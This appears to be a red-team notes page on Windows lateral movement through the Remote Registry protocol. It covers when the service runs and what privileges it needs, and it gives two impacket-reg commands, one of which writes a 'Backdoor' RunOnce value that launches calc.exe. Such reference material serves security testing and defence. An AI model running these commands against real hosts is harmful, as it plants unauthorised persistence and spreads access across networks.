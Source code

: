 ```yaml
---
title: Lateral Movement with Remote Registry
---
```


[[notes/lateral-movement/index]] by using [MS-RRP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/) to modify the [[notes/windows/registry]], e.g. write to one of the [Run keys](https://persistence-info.github.io/Data/run.html).

The remote registry service runs only on servers by default, but starts on-demand on desktops.
The start of the service can be triggered as unprivileged user ([source](https://twitter.com/splinter_code/status/1715876413474025704)), but if the service was explicitly disabled local admin rights are required to reenable it.

Once the service is running it is possible to read and write the HKCU hive as unprivileged user ([source](https://twitter.com/splinter_code/status/1717706003322478986)).

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg jdoe:'passw0rd'@ws01.corp.local query -keyName 'HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce'
    impacket-reg jdoe:'passw0rd'@ws01.corp.local add -keyName 'HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce' -v Backdoor -vt REG_SZ -vd 'calc.exe'
    ~~~
